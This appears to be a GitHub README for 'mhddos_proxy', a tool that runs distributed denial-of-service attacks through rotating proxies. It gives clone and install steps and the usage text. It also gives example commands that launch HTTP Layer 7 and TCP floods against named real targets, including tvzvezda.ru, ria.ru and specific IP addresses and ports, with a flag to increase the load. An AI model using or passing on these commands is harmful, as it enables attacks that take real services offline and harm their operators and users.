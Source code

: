 ## Setup

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    git clone https://github.com/MHProDev/MHDDoS.git
    git clone https://github.com/monosans/proxy-scraper-checker.git
    python3 -m pip install requirements.txt

# Usage

    python3 runner.py --help

    usage: runner.py [-h] [-t THREADS] [-p PERIOD] [-pt PROXY_TIMEOUT] targets [targets ...]

    positional arguments:
      targets            List of targets, separated by spaces
    
    optional arguments:
      -h, --help         show this help message and exit
      -t THREADS          Number of threads per CPU core (default is 200)
      -p PERIOD          How often (in seconds) to update the proxies (default is 600)
      -pt PROXY_TIMEOUT  How many seconds to wait for the proxy to make a connection. 
                         Higher values give more proxies, but with lower speed/quality (default is 3)

# Examples

    # HTTP(S) Layer 7 attack - randomly chosen method from GET, POST, STRESS, DYN, EVEN, BOT, DOWNLOADER
    python3 runner.py https://tvzvezda.ru https://194.54.14.168:443

    # TCP
    python3 runner.py tcp://194.54.14.131:4477

    # Increase load
    python3 runner.py -t 400 https://ria.ru

# TODO

- [ ] UDP support - need MHDDoS to support SOCKS5 proxies for UDP
